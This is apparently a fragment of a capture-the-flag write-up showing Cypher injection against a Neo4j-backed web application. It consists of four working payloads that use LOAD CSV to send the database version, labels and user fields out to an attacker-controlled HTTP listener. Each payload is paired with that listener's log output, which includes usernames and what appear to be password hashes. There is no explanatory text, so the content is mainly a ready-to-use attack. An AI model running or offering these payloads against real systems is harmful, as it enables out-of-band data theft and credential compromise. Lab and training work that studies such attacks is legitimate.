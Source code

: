 ' OR 1=1 WITH 1 as a  CALL dbms.components() YIELD name, versions, edition UNWIND versions as version LOAD CSV FROM 'http://10.10.16.5:8069/?version='   version   '&name='   name   '&edition='   edition as l RETURN 0 as _0 // 
10.10.11.210 - - [26/Apr/2023 14:20:31] "GET /?version=5.6.0&name=Neo4j Kernel&edition=community HTTP/1.1" 400 -

' OR 1=1 WITH 1 as a  CALL dbms.components() YIELD name LOAD CSV FROM 'http://10.10.16.5:8069/?name='   name as l RETURN 0 as _0 // 
10.10.11.210 - - [26/Apr/2023 13:57:50] "GET /?name=Neo4j Kernel HTTP/1.1" 400 -

' OR 1=1 WITH 1 as a  CALL db.labels() YIELD label LOAD CSV FROM 'http://10.10.16.5:8069/?label='   label as l RETURN 0 as _0 // 
10.10.11.210 - - [26/Apr/2023 14:25:43] "GET /?label=user HTTP/1.1" 200 -
10.10.11.210 - - [26/Apr/2023 14:25:43] "GET /?label=employee HTTP/1.1" 200 -

' OR 1=1 WITH 1 as a  MATCH (u:user) UNWIND keys(u) as p LOAD CSV FROM 'http://10.10.16.5:8069/?keys='   toString(u[p]) as l RETURN 0 as _0 // 
10.10.11.210 - - [26/Apr/2023 14:27:05] "GET /?keys=8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918 HTTP/1.1" 200 -
10.10.11.210 - - [26/Apr/2023 14:27:06] "GET /?keys=admin HTTP/1.1" 200 -
10.10.11.210 - - [26/Apr/2023 14:27:06] "GET /?keys=a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6 HTTP/1.1" 200 -
10.10.11.210 - - [26/Apr/2023 14:27:07] "GET /?keys=john HTTP/1.1" 200 -
